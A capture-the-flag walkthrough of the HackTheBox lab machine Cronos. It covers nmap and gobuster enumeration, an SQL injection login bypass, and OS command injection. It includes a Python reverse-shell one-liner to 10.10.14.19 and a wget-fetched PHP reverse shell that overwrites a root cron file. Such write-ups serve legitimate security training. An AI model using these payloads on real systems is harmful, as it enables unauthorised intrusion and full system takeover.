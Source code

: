 # Cronos

## Nmap

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Oct  5 16:49:45 2022 as: nmap -Pn -p 22,53,80 -sCV -O -oN script-scan.txt -v cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Wed Oct  5 16:49:41 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 16:50:04 2022 -- 1 IP address (1 host up) scanned in 18.38 seconds
```
{% endcode %}

## HTTP

<figure><img src="../../../../.gitbook/assets/image (23) (2).png" alt=""><figcaption></figcaption></figure>

### Webfuzz

{% code overflow="wrap" %}
```
 kali@kali  ~/Documents/htb/cronos  gobuster vhost -u http://cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 -o webfuzz.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/07 16:35:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 1547]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

### SQLi

{% embed url="https://book.hacktricks.xyz/pentesting-web/login-bypass#sql-injection-authentication-bypass" %}

We use the following payload for authentication bypass

```sql
admin' or '
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We will now test for OS Command Injection

```
8.8.8.8 & whoami
```

<figure><img src="../../../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

We can see we are the `www-data` user, so next we'll try to get a reverse shell

## Foothold

Set up your listener

```
rlwrap -cAr nc -lnvp 443
```

Enter this and click `execute`

{% code overflow="wrap" %}
```
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Check your listener and you should have a shell

<figure><img src="../../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Checking for scheduled tasks, we see there's a file called `artisan` that is running as a cron job with root privileges every minute of every hour of every month of every day of the week. We'll replace the contents of the file with a php reverse shell.

<figure><img src="../../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

I used revshells.com to generate a reverse shell and pasted it into a file called `privesc.php`

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>

Using a python web server, I download the file onto the victim machine and changed the name to match the filename in the cron job

```
wget 10.10.14.19/privesc.php
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Now set up a new listener (in my case, I will listen on port 445) and in just a few seconds, you should receive another shell, but this time as root

<figure><img src="../../../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>
